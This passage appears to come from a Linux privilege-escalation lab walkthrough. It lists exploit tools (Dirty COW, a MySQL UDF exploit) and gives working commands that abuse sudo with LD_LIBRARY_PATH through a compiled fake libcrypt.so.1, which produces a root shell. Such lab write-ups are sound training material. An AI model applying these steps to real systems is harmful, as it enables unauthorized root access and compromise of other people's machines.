     ./tools/mysql-udf/raptor_udf2.o
    ./tools/mysql-udf/raptor_udf2.c
    ./tools/mysql-udf/raptor_udf2.so
    ./tools/kernel-exploits
    ./tools/kernel-exploits/dirtycow
    ./tools/kernel-exploits/dirtycow/c0w.c
    ./tools/kernel-exploits/linux-exploit-suggester-2
    ./tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
    ./tools/kernel-exploits/linux-exploit-suggester-2/README.md
    ./tools/kernel-exploits/linux-exploit-suggester-2/LICENSE
    ./.john
    ./.irssi
    ./.irssi/config
    ./.bashrc
    ./.lesshst
    ./.profile
    ./.viminfo
    ./.bash_logout
    ./myvpn.ovpn
    ./.bash_history
    ```

- Run ldd against the apache2 program file to see which shared libraries are used by the program:

    ```bash
    user@debian:~$ ldd /usr/sbin/apache2
            linux-vdso.so.1 =>  (0x00007fffb9fff000)
            libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f7e4e3c9000)
            libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f7e4e1a5000)
            libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f7e4df6b000)
            libpthread.so.0 => /lib/libpthread.so.0 (0x00007f7e4dd4f000)
            libc.so.6 => /lib/libc.so.6 (0x00007f7e4d9e3000)
            libuuid.so.1 => /lib/libuuid.so.1 (0x00007f7e4d7de000)
            librt.so.1 => /lib/librt.so.1 (0x00007f7e4d5d6000)
            libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7e4d39f000)
            libdl.so.2 => /lib/libdl.so.2 (0x00007f7e4d19a000)
            libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7e4cf72000)
            /lib64/ld-linux-x86-64.so.2 (0x00007f7e4e886000)
    ```

- Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at `/home/user/tools/sudo/library_path.c`:

    ```bash
    user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
    ```

- Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

    ```bash
    user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
    apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
    root@debian:/home/user# 
    ```
